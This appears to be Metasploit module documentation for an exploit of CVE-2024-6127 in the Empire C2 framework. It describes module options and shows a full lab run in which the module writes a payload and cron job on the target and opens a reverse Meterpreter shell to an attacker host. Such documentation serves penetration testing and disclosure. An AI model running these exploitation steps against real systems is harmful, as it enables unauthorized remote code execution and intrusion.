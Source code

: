 This is the vulnerability to use. Default is `CVE-2024-6127`, but `Original` can also be chosen.

### STAGE_PATH (required)

This is the Empire's default staging path. This is used when CVE is set to `CVE-2024-6127`. Default is `login/process.php`.
([reference](https://github.com/BC-SECURITY/Empire/blob/8aca42747da6cf2b0def7edede94586f6b3258e8/empire/server/common/agents.py#L169))

### PROFILE (required)

This is the Empire's default communication profile agent.  This is used when CVE is set to `CVE-2024-6127`.
Default is `Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko`
([reference](https://github.com/BC-SECURITY/Empire/blob/8aca42747da6cf2b0def7edede94586f6b3258e8/empire/server/common/agents.py#L169))


## Scenarios
### BC-SECURITY/Empire C2 Framework (v5.9.2) installed with Docker on Kali Linux 6.6.15 (target 0, port 80)
```
msf > use exploit/linux/http/empire_skywalker
[*] No payload configured, defaulting to python/meterpreter/reverse_tcp
msf exploit(linux/http/empire_skywalker) > set rhost 192.168.56.7
rhost => 192.168.56.7
msf exploit(linux/http/empire_skywalker) > set rport 80
rport => 80
msf exploit(linux/http/empire_skywalker) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf exploit(linux/http/empire_skywalker) > check
[*] 192.168.56.7:80 - The target appears to be vulnerable.
msf exploit(linux/http/empire_skywalker) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[+] Successfully negotiated an artificial Empire agent
[*] Writing payload to /tmp/NYLkIKRK
[*] Writing cron job to /etc/cron.d/AeVTTPiZ
[*] Waiting for cron job to run, can take up to 60 seconds
[*] Sending stage (24772 bytes) to 192.168.56.7
[+] Deleted /etc/cron.d/AeVTTPiZ
[+] Deleted /tmp/NYLkIKRK
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.7:48026) at 2024-07-20 11:32:03 +0900
[!] This exploit may require manual cleanup of '/var/lib/powershell-empire/empire/server/downloads/LML47FWS/agent.log' on the target

meterpreter > sysinfo
Computer        : kali
OS              : Linux 6.6.15-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.15-2kali1 (2024-05-17)
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
```
